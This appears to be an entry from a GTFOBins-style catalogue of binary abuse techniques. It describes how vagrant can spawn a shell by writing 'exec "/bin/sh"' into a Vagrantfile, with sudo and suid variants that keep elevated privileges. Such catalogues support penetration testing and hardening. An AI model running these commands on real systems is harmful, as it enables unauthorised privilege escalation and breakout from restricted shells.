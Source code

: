 ```yaml
---
description: This allows to execute [`ruby`](/ptbins/ruby/) code, other functions may apply.
functions:
  shell:
    - code: |
        cd $(mktemp -d)
        echo 'exec "/bin/sh"' > Vagrantfile
        vagrant up
  sudo:
    - code: |
        cd $(mktemp -d)
        echo 'exec "/bin/sh"' > Vagrantfile
        vagrant up
  suid:
    - code: |
        cd $(mktemp -d)
        echo 'exec "/bin/sh -p"' > Vagrantfile
        vagrant up
---
```

